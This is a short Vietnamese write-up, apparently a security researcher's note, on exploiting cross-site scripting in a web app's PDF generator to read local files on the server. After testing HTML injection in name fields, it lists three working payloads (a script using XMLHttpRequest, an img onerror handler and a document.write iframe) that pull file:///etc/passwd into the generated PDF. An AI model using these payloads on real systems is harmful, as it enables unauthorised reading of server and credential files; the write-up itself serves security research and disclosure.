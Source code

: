 # Tận dụng XSS để đọc các tệp nội bộ
Mọi người đều quen thuộc với việc chuyển tiếp nhanh XSS một chút, XSS trong trình tạo PDF trên ứng dụng cho phép tôi đọc các tệp cục bộ trên hệ thống.
# XSS => LFI
Vì vậy, tôi đã thử nhập HTML bình thường để xem liệu nó có được hiển thị trong đầu ra PDF được tạo hay không.
```
login = <h1>huy1</h1>
frist name = <h1>huy2</h1>
Last name = <h1>huy3</h1>
```
và tôi test gen thì ở đây có bị xss ở huy2 và huy3.  

Đây là cách tôi đọc file tôi có 3 payload.

```
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>

<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

<script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>

```